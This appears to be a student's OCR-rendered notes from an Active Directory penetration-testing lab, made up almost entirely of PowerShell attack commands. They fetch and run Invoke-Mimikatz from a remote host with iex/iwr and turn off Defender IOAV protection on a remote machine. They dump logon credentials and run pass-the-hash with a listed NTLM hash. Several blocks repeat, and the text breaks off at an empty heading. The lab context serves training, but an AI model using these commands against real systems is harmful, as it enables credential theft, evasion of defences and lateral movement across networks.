 ## Load Mimikatz and Dump Hashes
```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

## Create a New PSSession
```powershell
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# Active Session and Dump Hashes

## Check Access and Dump Hashes
```powershell
Invoke-UserHunter -checkaccess
Find-LocalAdminAccess
```

# Confirm Local Admin Privileges
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# Dump Hashes Using Mimikatz
```powershell
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

mimikatz(powershell) # sekurlsa::logonpasswords
```

## Pass-the-Hash with Mimikatz
```powershell
Invoke-Mimikatz -Command '""sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe""'
```
# Learning Objective 7: 

## Task 
